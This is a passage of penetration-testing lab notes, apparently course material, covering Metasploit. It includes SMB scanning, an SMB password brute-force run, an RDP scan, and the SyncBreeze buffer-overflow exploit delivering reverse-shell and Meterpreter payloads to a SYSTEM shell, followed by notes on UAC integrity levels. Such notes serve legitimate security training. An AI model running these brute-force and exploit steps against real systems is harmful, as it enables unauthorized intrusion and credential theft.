Services
========

host             port  proto  name          state  info
----             ----  -----  ----          -----  ----
192.168.101.113  445   tcp    microsoft-ds  open   Windows 10 Pro 18363 microsoft-ds workgroup: WORKGROUP

RHOSTS => 192.168.101.113
```

With the required parameters configured, we can launch the module with run or exploit :

```
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.101.113:445   - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1) (encryption capabilities:AES-128-CCM) (signatures:optional) (guid:{35057c78-9f1c-448f-9746-fcd47bdc8546}) (authentication domain:DESKTOP-H5AKSBG)
[+] 192.168.101.113:445   -   Host is running Windows 10 Pro (build:18363) (name:DESKTOP-H5AKSBG) (workgroup:WORKGROUP)
[*] 192.168.101.113:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Based on the module’s output, the remote computer does indeed support SMB version 2. To leverage this, we can use the scanner/smb/smb_login module to attempt a brute force login against the machine. Loading the module and listing the options produces the following output:

```
msf6 > use auxiliary/scanner/smb/smb_login  

msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

```

We notice that RHOSTS is not set, even though we set it while using the previous smb2 module. This is because set defines a parameter only within the scope of the running module. We can instead set a global parameter, which is available across all modules, with setg .

```
msf6 auxiliary(scanner/smb/smb_login) > setg RHOSTS 192.168.101.113
RHOSTS => 192.168.101.113
```

We’ll start by supplying the valid domain name of corp.com , a valid username ( Offsec ), an invalid password ( ABCDEFG123! ), and the Windows 10 target’s IP address:

```
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain corp.com
SMBDomain => corp.com
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser Offsec
SMBUser => Offsec
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass ABCDEFG123!
SMBPass => ABCDEFG123!
msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 10.11.0.22
RHOSTS => 10.11.0.22
msf5 auxiliary(scanner/smb/smb_login) > set THREADS 10
THREADS => 10
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'corp.com\Offsec:ABCDEFG123!',
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Since we knew that the password we supplied was invalid, the login failed as expected. Now, let’s try to supply a valid password and re-run the module.

```
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit
[+] 10.11.0.22:445 - 10.11.0.22:445 - Success: 'corp.com\Offsec:Qwerty09!' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This time, the authentication succeeded. We can retrieve information regarding successful login
attempts from the database with creds .

```
msf6 auxiliary(scanner/smb/smb_login) > creds
Credentials
===========

host             origin           service        public       private   realm  private_type  JtR Format
----             ------           -------        ------       -------   -----  ------------  ----------
192.168.101.113  192.168.101.113  445/tcp (smb)  Offsec       Qwerty09!         Password
```

Although this run was successful, this method will not scale well. To test a larger user base with a variety of passwords, we could instead use the USERPASS_FILE parameter, which instructs the module to use a file containing users and passwords separated by space, with one pair per line.

```
msf5 auxiliary(scanner/smb/smb_login) > set USERPASS_FILE /home/kali/users.txt
USERPASS_FILE => /home/kali/users.txt

msf5 auxiliary(scanner/smb/smb_login) > run
  
[*] 10.11.0.22:445  - 10.11.0.22:445 - Starting SMB login bruteforce
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\bob:Qwerty09!',
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\bob:password',
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\alice:Qwerty09!',
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\alice:password',
[+] 10.11.0.22:445  - 10.11.0.22:445 - Success: '.\offsec:Qwerty09!'
[*] 10.11.0.22:445  - 10.11.0.22:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### RDP Scanner

Let’s try out another module. In this example, we will try to identify machines listening on TCP port
3389, which indicates they might be accepting Remote Desktop Protocol (RDP) connections. To do
this, we will invoke the scanner/rdp/rdp_scanner module.

```
msf6 > use auxiliary/scanner/rdp/rdp_scanner

msf6 auxiliary(scanner/rdp/rdp_scanner) > show options

Module options (auxiliary/scanner/rdp/rdp_scanner):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DETECT_NLA       true             yes       Detect Network Level Authentication (NLA)
   RDP_CLIENT_IP    192.168.101.116  yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS           192.168.101.113  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 192.168.101.104
RHOSTS => 192.168.101.104
msf6 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 192.168.101.104:3389  - Detected RDP on 192.168.101.104:3389  (Windows version: 10.0.18362) (Requires NLA: No)
[*] 192.168.101.104:3389  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit Modules

#### SyncBreeze Enterprise
```
msf6 > search syncbreeze

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  exploit/windows/fileformat/syncbreeze_xml  2017-03-29       normal  No     Sync Breeze Enterprise 9.5.16 - Import Command Buffer Overflow
   1  exploit/windows/http/syncbreeze_bof        2017-03-15       great   Yes    Sync Breeze Enterprise GET Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/syncbreeze_bof
```

```
msf6 > info exploit/windows/http/syncbreeze_bof

       Name: Sync Breeze Enterprise GET Buffer Overflow
     Module: exploit/windows/http/syncbreeze_bof
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2017-03-15

Provided by:
  Daniel Teixeira
  Andrew Smith
  Owais Mehtab
  Milton Valencia (wetw0rk)

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   Sync Breeze Enterprise v9.4.28
  2   Sync Breeze Enterprise v10.0.28
  3   Sync Breeze Enterprise v10.1.16

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host

Payload information:
  Space: 500
  Avoid: 6 characters

Description:
  This module exploits a stack-based buffer overflow vulnerability in 
  the web interface of Sync Breeze Enterprise v9.4.28, v10.0.28, and 
  v10.1.16, caused by improper bounds checking of the request in HTTP 
  GET and POST requests sent to the built-in web server. This module 
  has been tested successfully on Windows 7 SP1 x86.

References:
  https://cvedetails.com/cve/CVE-2017-14980/
```

To retrieve a listing of all payloads that are compatible with the currently selected exploit module,
we run show payloads

```
msf6 > use exploit/windows/http/syncbreeze_bof
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/http/syncbreeze_bof) > show payloads 

Compatible Payloads
===================

   #    Name                                                Disclosure Date  Rank    Check  Description
   -    ----                                                ---------------  ----    -----  -----------
   0    generic/custom                                                       normal  No     Custom Payload
   1    generic/debug_trap                                                   normal  No     Generic x86 Debug Trap
   2    generic/shell_bind_tcp                                               normal  No     Generic Command Shell, Bind TCP Inline
   3    generic/shell_reverse_tcp                                            normal  No     Generic Command Shell, Reverse TCP Inline
   4    generic/tight_loop                                                   normal  No     Generic x86 Tight Loop
   5    windows/adduser                                                      normal  No     Windows Execute net user /ADD
   6    windows/dllinject/bind_hidden_ipknock_tcp                            normal  No     Reflective DLL Injection, Hidden Bind Ipknock TCP Stager
   7    windows/dllinject/bind_hidden_tcp                                    normal  No     Reflective DLL Injection, Hidden Bind TCP Stager
   8    windows/dllinject/bind_ipv6_tcp                                      normal  No     Reflective DLL Injection, Bind IPv6 TCP Stager (Windows x86)
   9    windows/dllinject/bind_ipv6_tcp_uuid                                 normal  No     Reflective DLL Injection, Bind IPv6 TCP Stager with UUID Support (Windows x86)
   10   windows/dllinject/bind_named_pipe                                    normal  No     Reflective DLL Injection, Windows x86 Bind Named Pipe Stager
.............
```

We can specify a standard reverse shell payload (windows/shell_reverse_tcp) with set payload and list the options with show options :

```
msf6 exploit(windows/http/syncbreeze_bof) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
msf6 exploit(windows/http/syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Let’s go ahead and set LHOST and RHOST to define our attacking host and target host respectively.

```
msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze_bof) > set RHOST 10.11.0.22
RHOST => 10.11.0.22
```

After setting LHOST to our Kali IP address and RHOST to the Windows host IP address, we can use check to verify whether or not the target host and application are vulnerable. Note that this check will only work if the target application exposes some sort of banner or other identifiable data.

```
msf5 exploit(windows/http/syncbreeze_bof) > check
[*] 10.11.0.22:80 - The target appears to be vulnerable.
```

With confirmation that the target is vulnerable, all that remains now is to run the exploit using the
exploit command as displayed below.

```
msf5 exploit(windows/http/syncbreeze_bof) > exploit

[*] Started reverse TCP handler on 10.11.0.4:4444
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] Command shell session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50195)

Microsoft Windows [Version 10.0.16299.248]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
whoami
nt authority\system
```

Notice that when we execute the exploit, Metasploit automatically creates a payload listener,
eliminating the need for Netcat. Upon execution completion, a session is created and the reverse
shell is made available for us.

#### Metasploit Payloads

##### Staged vs Non-Staged Payloads

Before jumping into specific shellcode functionality, we must discuss the distinction between
staged and non-staged shellcode, as evidenced by the description of these two payloads:

```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
```

**non-staged payload**

- is sent in its entirety along with the exploit

**staged payload**

- is usually sent in two parts.
- the first part contains a small primary payload that causes the victim machine to connect back to the
  attacker
- transfer a larger secondary payload containing the rest of the shellcode, and then execute
  it.

There are several situations in which we would prefer to use staged shellcode instead of non- staged. If the vulnerability we are exploiting does not have enough buffer space to hold a full payload, a staged payload might be suitable. Since the first part of a staged payload is typically smaller than a full payload, these smaller initial payloads can likely help us in space-constrained situations. In addition, we need to keep in mind that antivirus software will quite often detect embedded shellcode in an exploit. By replacing that code with a staged payload, we remove a good chunk of the malicious part of the shellcode, which may increase our chances of success. After the initial stage is executed by the exploit, the remaining payload is retrieved and injected directly into the victim machine’s memory.

**Note that in Metasploit, the “/” character is used to denote whether a payload is staged or not, so** 
**“shell_reverse_tcp” is not staged, whereas “shell/reverse_tcp” is.**

##### Meterpreter Payloads

Meterpreter

- is a multi-function payload that can be dynamically extended at run-time.

- provides more features and functionality than a regular command shell, offering capabilities such as file transfer, keylogging, and various other methods of interacting with the victim machine.
- These tools are especially useful in the post-exploitation phase. Because of Meterpreter’s flexibility and capability, it is the favorite and most commonly-used Metasploit payload.

A search for the “meterpreter” keyword returns a long list of results, but narrowing the search to the payload category reveals meterpreter versions for multiple operating systems and architectures including Windows, Linux, Android, Apple iOS, FreeBSD, and Apple OS X/macOS.

```
msf6 > search meterpreter type:payload

Matching Modules
================

   #    Name                                                        Disclosure Date  Rank    Check  Description
   -    ----                                                        ---------------  ----    -----  -----------
   0    payload/android/meterpreter/reverse_http                                     normal  No     Android Meterpreter, Android Reverse HTTP Stager
   1    payload/android/meterpreter/reverse_https                                    normal  No     Android Meterpreter, Android Reverse HTTPS Stager
   2    payload/android/meterpreter/reverse_tcp                                      normal  No     Android Meterpreter, Android Reverse TCP Stager
   3    payload/android/meterpreter_reverse_http                                     normal  No     Android Meterpreter Shell, Reverse HTTP Inline
   4    payload/android/meterpreter_reverse_https                                    normal  No     Android Meterpreter Shell, Reverse HTTPS Inline
   5    payload/android/meterpreter_reverse_tcp                                      normal  No     Android Meterpreter Shell, Reverse TCP Inline
   6    payload/apple_ios/aarch64/meterpreter_reverse_http                           normal  No     Apple_iOS Meterpreter, Reverse HTTP Inline
   7    payload/apple_ios/aarch64/meterpreter_reverse_https                          normal  No     Apple_iOS Meterpreter, Reverse HTTPS Inline
   8    payload/apple_ios/aarch64/meterpreter_reverse_tcp                            normal  No     Apple_iOS Meterpreter, Reverse TCP Inline
   9    payload/apple_ios/armle/meterpreter_reverse_http                             normal  No     Apple_iOS Meterpreter, Reverse HTTP Inline
   10   payload/apple_ios/armle/meterpreter_reverse_https                            normal  No     Apple_iOS Meterpre
```

There are a multitude of Meterpreter versions based on specific programming languages (Python, PHP, Java), protocols and transports (UDP, HTTPS, IPv6, etc), and other various specifications (32-bit vs 64-bit, staged vs unstaged, etc). 

For example, a small selection of Windows reverse meterpreter payloads is shown below:

```
 59  payload/windows/x64/meterpreter/bind_tcp_uuid                                normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
   60  payload/windows/x64/meterpreter/reverse_http                                 normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   61  payload/windows/x64/meterpreter/reverse_https                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   62  payload/windows/x64/meterpreter/reverse_named_pipe                           normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   63  payload/windows/x64/meterpreter/reverse_tcp                                  normal  No     Windows Meterpreter
```

We can select a specific meterpreter payload with set and configure it just as we would a standard reverse shell payload:

```
msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/meterpreter/reverse_ht
tp
payload => windows/meterpreter/reverse_http
msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.101.104  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_http):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The local listener hostname
   LPORT     4444             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Let’s try this payload against Syncbreeze. With everything configured correctly, we can launch the
exploit and establish a reverse meterpreter connection:

```
msf5 exploit(windows/http/syncbreeze_bof) > exploit

[*] Started HTTP reverse handler on http://10.11.0.4:4444
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] http://10.11.0.4:4444 handling request from 10.11.0.22; (UUID: ppowchzb) Staging x
[*] Meterpreter session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50270)
```

##### Experimenting with Meterpreter

We can retrieve a list of all modules and commands built-in to Meterpreter with the help command:

```

```

​		

## Privilege Escalation


### Windows User Account Control (UAC)

Even while logged in as an administrative user, the account will have two security tokens, one
running at:

- **medium integrity level** and 

- **high integrity level**. 

UAC acts as the separation mechanism between those two integrity levels.

To see integrity levels in action, let’s first login as the admin user, open a command prompt, and
run the whoami /groups command:

```
C:\Users\sherwinowen>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes

====================================== ================ ============ ===========
=======================================
Everyone                               Well-known group S-1-1-0      Mandatory g
roup, Enabled by default, Enabled group
BUILTIN\Administrators                 Alias            S-1-5-32-544 Group used
for deny only
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory g
roup, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory g
roup, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON  Well-known group S-1-5-14     Mandatory g
roup, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory g
roup, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory g
roup, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory g
roup, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory g
roup, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory g
roup, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  Mandatory g
roup, Enabled by default, Enabled group
```

As reported on the last line of output, this command prompt is currently operating at a Medium integrity level.

Let’s attempt to change the password for the admin user from this command prompt:

```
C:\Users\sherwinowen>net user sherwinowen password
System error 5 has occurred.

Access is denied.
```

Switch to high integrity level. And try to change the user password again.

```
C:\Users\sherwinowen>powershell.exe Start-Process cmd.exe -Verb runAs

C:\Windows\system32>net user sherwinowen password
The command completed successfully.
```

### Bypass UAC

